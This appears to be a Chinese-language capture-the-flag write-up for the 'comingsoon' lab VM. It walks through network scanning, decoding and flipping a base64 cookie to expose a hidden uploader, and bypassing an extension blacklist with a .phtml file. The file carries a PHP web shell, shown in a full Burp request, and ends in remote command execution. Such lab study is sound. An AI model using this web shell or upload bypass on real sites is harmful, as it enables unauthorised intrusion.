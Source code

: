 刚开始没有IP
单用户修改密码也需要输入用户密码，不能改
/boot/grub/grub.cfg配置文件下
```c

```
看了wp，才知道root用户密码ToyStory3，进去后也没有dhclient命令获取ip
只能换一种方式，编辑vim /etc/network/interface
[Linux(Debian)网卡设置\_debian auto eth0-CSDN博客](https://blog.csdn.net/willhuo/article/details/79610260)

|   |   |   |
|---|---|---|
|comingsoon|easy|前端分析、文件上传绕过、提示信息利用、shadow 爆破、hydra 使用、|

# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.133/24
┌──(kali㉿kali)-[~]
└─$ fping -aqg 192.168.44.0/24
```
# 服务探测
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.137
```
只有22和80
# 目录爆破
```C
http://192.168.44.137/notes.txt
Dave,

Last few jobs to do...

Set ssh to use keys only (passphrase same as the password)

Just need to sort the images out:
resize and scp them or using the built-in image uploader.

Test the backups and delete anything not needed.

Apply an https certificate.

Cheers,

Webdev

翻译

戴夫，

最后几项工作要做...

将 ssh 设置为仅使用密钥（密码与密码相同）

只需要对图像进行排序：
调整大小并对其进行 scp 或使用内置图像上传器。

测试备份并删除不需要的任何内容。

申请https证书。

干杯，

网络开发者


http://192.168.44.137/index.php
右键检查源码看到提示

 Upload images link if EnableUploader set 
 翻译
 如果设置了 EnableUploader，则上传图像链接

```


检查当前页面的cookie信息，发现base64编码的东西
```css
RW5hYmxlVXBsb2FkZXIK 
ZmFsc2UK
解码后
EnableUploader
false
```

综上所述，把false改成true编码后`dHJ1ZQ==`，就会出现文件上传的入口
http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
burp抓包,这里后端使用黑名单限制了php后缀的上传，尝试使用phtml后缀被解析成功。

```
POST /5df03f95b4ff4f4b5dabe53a5a1e15d7.php HTTP/1.1
Host: 192.168.44.137
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30594177056923721121592264423
Content-Length: 379
Origin: http://192.168.44.137
Connection: close
Referer: http://192.168.44.137/5df03f95b4ff4f4b5dabe53a5a1e15d7.php
Cookie: RW5hYmxlVXBsb2FkZXIK=dHJ1ZQ==
Upgrade-Insecure-Requests: 1

-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="fileToUpload"; filename="logo.phtml"
Content-Type: image/png
<?php system($_GET['cmd']);?>
-----------------------------30594177056923721121592264423
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------30594177056923721121592264423--
```

命令执行
```c
http://192.168.44.137/assets/img/1.phtml?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
